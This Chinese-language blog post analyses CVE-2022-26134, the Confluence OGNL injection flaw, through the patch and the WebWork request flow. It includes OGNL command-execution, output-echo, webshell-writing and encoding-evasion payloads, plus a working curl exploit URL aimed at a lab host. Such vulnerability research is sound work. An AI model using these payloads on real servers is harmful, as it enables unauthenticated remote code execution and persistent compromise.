


Confluence EL Injection via OGNL
---


### 0x00 前言

上一篇文章《Confluence SSTI via Velocity》中的漏洞原理较为简单，采用了正向分析的方法去还原漏洞挖掘的过程，这篇文章主要从补丁去逆向分析、尝试独立构造出 POC。

### 0x01 简介

本文将要介绍以下内容:

- 介绍OGNL 基本语法 & 内置箱机制，并通过一些例子进行初步掌握
- 梳理 Confluence 处理 HTTP 请求的基本流程
- 分析 CVE-2022-26134 的补丁，然后独立构造 Exploit

### 0x02 表达式语言 OGNL

OGNL 部分的前置知识:

- OGNL 介绍
- 基本使用 (能看懂并定制 poc/exp)
- 实战利用 (命令执行/回显/文件写入)

#### 了解 OGNL

- 尽量从官方文档了解，因为信息在网上的多次传播后难免有失真的可能性。

**OGNL** (Object-Graph Navigation Language) is an expression language for getting and setting properties of Java objects (操作 Java 对象的属性)。

#### 基本语法和使用

**0、基本单元**

The fundamental unit(基本单元) of an OGNL expression is the navigation chain(导航链), usually just called "chain"。

说明 OGNL 支持链式调用, 是以 “.”（点号）进行串联的一个链式字符串表达式。

例子：

```java
// 伪代码
class people{
    name = "zhang san"
    fullName = {"zhang","san"}
    getAge(){
        return "18"
    }
}
```

| **Expression Element(元素) Part** | **Example**                                          |
| --------------------------------- | ---------------------------------------------------- |
| Property(属性) names              | 获取 people 的 name 属性，可用：people.name 表示     |
| Method Calls                      | 获取 people 的 age 属性，可用：people.getName() 表示 |
| Array Indices(数组索引)           | 获取 people 的姓氏 ，可用 people.fullName[0] 表示    |


**1、三要素**

通俗理解理解就和解语文的阅读理解题一样，需要搞清楚

- 故事：OGNL 表达式，表示执行什么操作
- 人物：OGNL ROOt对象，表示被操作的对象是谁
- 地点：OGNL 上下文环境，表示执行操作的环境在哪


**2、常见符号介绍**

| 操作符 | 说明                                                         |
| :----: | :----------------------------------------------------------- |
|   .    | 调用对象的属性、方法                                         |
|   @    | 调用静态对象、静态方法、静态变量                             |
|   #    | 定义变量、调用非root对象、访问 this 变量(当前调用者对应的实例) |
|  ${}   | 引入 OGNL 表达式；形如 ${xxxx}                               |
|   %    | 表达式声明；形如 %{xxxx},告诉执行环境 xxxx 是OGNL表达式需要被计算 |
|   {}   | 构造 List；形如：{"aaa", "bbb"}                              |
|  #{}   | 构造 Map；形如：#{"a" : "12345", "b" : "67890"}              |
|  this  | 当前对象所对应的实例，通过 #this 调用                        |
|  new   | 可用已知对象的构造函数来构造对象；形如：new java.net.URL("http://www.xxx.com/") |

**3、初阶使用**

通过例子了解OGNL为何会从 feature 成为 vulnerability

1) **可调用静态方法**

```java
OgnlContext context = new OgnlContext();
String expression = "@java.lang.Runtime@getRuntime().exec(\"calc\")";
Ognl.getValue(expression,context);
```


2) **定义变量、传参、方法调用**

```java
OgnlContext context = new OgnlContext();
String expression =
"#cmd='notepad'," +
"@java.lang.Runtime@getRuntime().exec(#cmd)";
Ognl.getValue(expression,context);
```


3) **new 关键字创建对象**

```
OgnlContext context = new OgnlContext();
String expression = "(new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start()";
Ognl.getValue(expression,context);
```


**4、中阶使用**

从 Struts2 系列的 payload 中学习如何进行漏洞利用

1) 命令执行

```java
# Runtime
@java.lang.Runtime@getRuntime().exec(\"calc\")

# ProcessBuilder
(new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start()
```

2) 回显

```java
# IOUtils
@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream())
```

测试效果


```
# Scanner
new java.util.Scanner(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream()).useDelimiter('\\a').next()
```

测试效果


实战时可通过 response 对象回显

```java
#writer = response.getWriter()
#writer.println("exec result")
#writer.flush()
#writer.close()
```


3) 文件操作

单纯的命令执行无法满足需求时，可以写入 webshell

```
String expression =
    "#filepath = 'F:/workspace/java/application/atlassian/confluence/code/local/confluence-exploit-beta/',"+
    "#filename = 'shell.jsp'," +
    "#filecontent = 'pwned by 1337'," +
    "#fos=new java.io.FileOutputStream((#filepath + #filename))," +
    "#fos.write(#filecontent.getBytes())," +
    "#fos.close()";
OgnlContext context = new OgnlContext();
Ognl.getValue(expression,context);
```

测试效果


5) **进阶知识**

- 只作简单介绍，后续会更系统详细的学习 OGNL 更底层的知识

1) 如何触发 RCE Sink

- 方便白盒审计

```
getValue()
setValue() # 本质还是 getValue
findValue() # 本质还是 getValue
```

触发例子：

```
# getValue()
OgnlContext context = new OgnlContext();
Ognl.getValue("(new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start()", context);

# setValue()
OgnlContext context = new OgnlContext();
Ognl.setValue("((new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start())(1)", context,"");

# findValue()
OgnlValueStack stack = new OgnlValueStack();
stack.findValue("(new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start()");
```


2、getValue()、setValue() 运算符优先级


3、隐藏在 issue 里的 "trick"

比如在 poc 中 unicode 编码的思路从何而来？在知识储备不够的情况只能到处薅信息，找点灵感


例子(OGNL v2.6.9)：

一番踩坑后构造出以下 poc

```
# new 关键字 Unicode编码后得到 \u006e\u0065\u0077
(\u006e\u0065\u0077 java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()
```

测试效果


```
Q: 为什么会支持 Unicode? 是否还支持其他编码或特性？
A: 先贴上调用栈，这里就不占篇幅再详述了，留到OGNL的专项篇来学习
```

```java
readChar:249, JavaCharStream (ognl)
BeginToken:184, JavaCharStream (ognl)
getNextToken:1471, OgnlParserTokenManager (ognl)
jj_ntk:3078, OgnlParser (ognl)
unaryExpression:1080, OgnlParser (ognl)
multiplicativeExpression:972, OgnlParser (ognl)
additiveExpression:895, OgnlParser (ognl)
shiftExpression:751, OgnlParser (ognl)
relationalExpression:509, OgnlParser (ognl)
equalityExpression:406, OgnlParser (ognl)
andExpression:353, OgnlParser (ognl)
exclusiveOrExpression:300, OgnlParser (ognl)
inclusiveOrExpression:247, OgnlParser (ognl)
logicalAndExpression:194, OgnlParser (ognl)
logicalOrExpression:141, OgnlParser (ognl)
conditionalTestExpression:102, OgnlParser (ognl)
assignmentExpression:65, OgnlParser (ognl)
expression:24, OgnlParser (ognl)
topLevelExpression:16, OgnlParser (ognl)
parseExpression:113, Ognl (ognl)
getValue:454, Ognl (ognl)
getValue:433, Ognl (ognl)
main:12, OGNLTrigger (com.demo)
```


#### 基于黑名单的沙箱机制

在线diff源码，发现 OGNL 在 v3.1.25 版本加入了基于黑名单的沙箱机制


```
Prevent calls to some specific methods, as well as all methods of certain classes/interfaces for which no (apparent) legitimate use cases exist for their usage within OGNL invokeMethod().
```

限制对某些特定方法的调用，以及在OGNL invokeMethod()中没有(明显的)合法用例存在的某些类/接口的所有方法的调用，比如命令执行需要的 Runtime、ProcessBuilder等。

例子：

将 OGNL 版本升到有黑名单限制的版本，执行带命令执行的表达式，会抛出以下异常


因为方法 invokeMethod() 中 调用了 isAssignableFrom() 方法判断 `Class` 对象所表示的类或接口与指定的 `Class` 参数所表示的类或接口是否相同，或是否是其超类或超接口。如果是则返回 `true`，抛出异常；否则返回 `false`：


```
Q：如何绕过其内置的黑名单呢？
A：方式挺多的，这里以 ScriptEngine 为例
```

测试效果


### 0x03 框架 WebWork 分析

WebWork 部分前置知识

- Confluence 是如何处理 HTTP 请求的


从一张图大致了解 Confluence 的架构 (远古)

- https://developer.atlassian.com/server/confluence/images/42732834.png


HTTP 请求的处理框架：WebWork2, 在官网找到了一份 03 年的 ppt 有做介绍


一张百度百科的 WebWork 架构图


把一个请求的生命周期描述得很清楚，主要关注3个关键部分

|     名称     | 说明                                                         |
| :----------: | ------------------------------------------------------------ |
|   Actions    | 代表一次请求或调用，其Action类需要实现Action接口或继承基础类ActionSupport，实现了默认的execute方法，并返回一个在配置文件中定义的Result。Action也可以只是一个POJO，不用继承任何类也不用实现任何接口。Action是一次请求的控制器，同时也充当数据模型的角色。 |
|   Results    | 一个结果页面的定义，用来指示Action执行之后，如何显示执行的结果。Result Type表示如何以及用哪种视图技术展现结果。通过Result Type，WebWork可以方便的支持多种视图技术(即Jsp、FreeMarker、Velocity等)。 |
| Interceptors | WebWork的拦截器，WebWork截获Action请求，在Action执行之前或之后调用拦截器方法。这样，可以用插拔的方式将功能注入到Action中。WebWork框架的很多功能都是以拦截器的形式提供出来。例如：参数组装，验证，国际化，文件上传等等。 |


以动态调试的方式跟一下大致的处理流程

- com.opensymphony.webwork.dispatcher.ServletDispatcher#service 在此处下断点，然后发起请求
  - http://10.1.1.1:8090/xxx/login.action

命中断点


经过一系列的 Filter 处理后，走到 `ServletDispatcher#service`,接着会调用以下方法获取相应的值

```
this.getNameSpace()
this.getActionName() 
this.getRequestMap()
this.getParameterMap() 
this.getSessionMap()
```

以 getNameSpace() 为例,其处理流程如下：

```
request.getServletPath() -> getNamespaceFromServletPath(servletPath) -> servletPath.substring(0, servletPath.lastIndexOf("/"))
```

- namespace == 请求路径最后一个 `/` 之前的内容
  - 若请求 `/login.action` -> namespace 就是 `""`
  - 若请求 `/xxx/login.action` -> name 则等于 `/xxx`

如图：


然后会走到 `DefaultActionInvocation#invoke`，首先获取一个实现了List接口的数组，有 32 个拦截器


开始迭代循环

- com.opensymphony.xwork.DefaultActionInvocation#invoke ->
  - com.opensymphony.xwork.interceptor.AroundInterceptor#intercept ->
- com.opensymphony.xwork.DefaultActionInvocation#invoke <-
  - ...


当 resultCode 不为 `null` 时则跳出循环，然后执行`this.executeResult() -> this.createResult()`,根据 resultCode 获取 resultConfig


接着调用 `ObjectFactory#buildResult()` 构建 `result`, 获取到 login.action 对应的模板文件位置 `/login.vm`


此时 `this.result` 对应的类为 `EncodingVelocityResult` 继承自 `WebWorkResultSupport`， `this.result.execute()` 调用的是 `WebWorkResultSupport.execute()`


- 可见都会执行到 execute(),实现该方法的类也不多，就8个，而且 `ActionChainResult` 明晃晃地排在首位


然后在方法 `Result#excute()` 里调用 `TextParseUtil#translateVariables()` 对 Variable 进行 Translate


```
# 题外话 (事后诸葛亮)
如果在分析 Confluence 历史漏洞时肯耐心地像这样梳理一遍 Confluence 对 HTTP 请求的处理过程，其实只要跟进了 translateVariables() 方法里，还是有很大地机会挖到 CVE-2022-26134 的，毕竟 findValue() 就在那里 :)

# 若 expression 可控
可以构造形如 ${xxx} 的 payload，触发 stack.findValue()，达到 RCE 的效果
```

最后再调用 `VelocityResult#doExecute()` 使用 Velocity 模板引擎加载模板文件 `login.vm` 进行渲染并返回结果。


如图：


至此，Confluence 的 HTTP 请求的处理流程梳理完毕。


流程总结：

- 客户端发起对 `/xxx/login.action` 的 HTTP 请求
- 经过一系列 Filter 处理后，会走到 `ServletDispatcher#service()` 进行分发请求
- 通过 this.getNameSpace()、this.getActionName()等方法获取所需的属性，如: namespace等
- 会对 拦截器数组进行迭代循环，直到 `resultCode!=null`跳出循环
- 根据 `resultCode` 构建 `this.result` 并获取`login.action`对应的模板文件 `/login.vm`
- 执行 `this.result.excute()`时会调用`translateVariables()`对一些变量进行 Translate
  - Converted object from variable translation.
  - 会对表达式进行解析，存在 OGNL Injection 的风险
- 最后就是加载模板文件进行处理 & 渲染，然后返回给客户端。

### 0x04 CVE-2022-26134 pre-auth RCE

Security Advisory

- [Confluence - CVE-2022-26134 - Critical severity unauthenticated RCE vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html)

Atlassian has been made aware of current active exploitation of a critical severity unauthenticated remote code execution vulnerability in Confluence Data Center and Server. The OGNL injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance. 


关键信息:

- 漏洞条件:`unauthenticated` 不需要任何权限
- 漏洞利用:
  - `OGNL injection` 漏洞本质 表达式语言 OGNL 的问题


##### 补丁分析

diff补丁


发现移除了 `ActionChainResult#execute()` 中对`TextParseUtil.translateVariables()` 的调用。在 `0x03`小节中，已经知道`translateVariables()`是存在 OGNL Injection 风险的:


所以现在只需要分析出如何触发 `ActionChainResult#execute()` 中的 OGNL Injection 即可。

- com.opensymphony.xwork.ActionChainResult#execute



如图所示，调用 `translateVariables()` 对 namespace 进行处理，而 namespace 在 `0x03` 小节中已确认为可控点:



所以 `26134` 也就呼之欲出了。

> 构造 poc 验证想法

1) 在 namespace 处插入 OGNL 表达式

```
/${2*2}/login.action
```

如图，发现和预想的结果并不一样


经过之前的分析已知，对`/login.cation` 请求在构建 `result` 时，取得的类是继承自 `WebWorkResultSupport`的`EncodingVelocityResult`，最后执行的 `Result#excute()` 是`WebWorkResultSupport`，而不是 `ActionChainResult`。

```
Q: 问题来了，如何构造请求可让其执行到 ActionChainResult#execute() 呢 ？
```

回忆一下：

- 针对`/xxx/login.action`的请求，在构建 `this.result` 时会根据 `resultCode=="input"` 从 `Map results` 中取 `resultConfig`，其 `ClassName`决定了调用`Result#execute()`的子类。


所以若想要调用到 `ActionChainResult#execute()`，需要控制 resultConfig 的 className 为 ActionChainResult, resultConfig 由 resultCode 决定


从 `results` 分析可得，当  resultCode 等于以下值时:

```
notpermittedpersonal
readonly
notpermitted
notfound
```

可以让执行流程成功进入到 ActionChainResult#execute()。

```
Q: 该如何构造请求让其 resultCode 等于以上值呢 ？
A: 暂时没啥思路，只能继续啃文档。
```

最后对 `notpermitted`进行搜索找到以下描述


顾名思义，访问一个没有权限的路径即可，比如图中出现的 `/dashboard.action`。

> 再次构造 poc 验证想法

2) 在 namespace 处插入 OGNL 表达式

```
/${2*2}/dashboard.action
```

如图，和预想的结果一样，resultCode == notpermitted


执行流程走到 `ActionChainResult#execute`, 调用 `TextParseUtil.translateVariables`对 namespace 进行处理。

如图:


将 ${} 中的表达式提取出来执行，成功触发 OGNL Injection。

---

至此, 漏洞分析部分结束。 

整个过程中，不管是梳理 Conflunence 的 HTTP 请求的处理流程时"意外"发现 OGNL Sink ，还是从 Sink 逐步定位到 Source ，都还蛮有意思。

##### 漏洞复现

弹计算器

```
curl -kI "http://10.1.1.1:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22calc%22%29%7D/dashboard.action"
```

执行成功


### 0x05 小结

漏洞分析还是有用的, 当对大部分漏洞原理都了如指掌, 挖洞其实也是水到渠成的事情。


参考:

1) https://commons.apache.org/proper/commons-ognl/
2) https://y4er.com/posts/cve-2022-26134-confluence-server-data-center-ognl-rce/
3) https://baike.baidu.com/item/webwork/486050

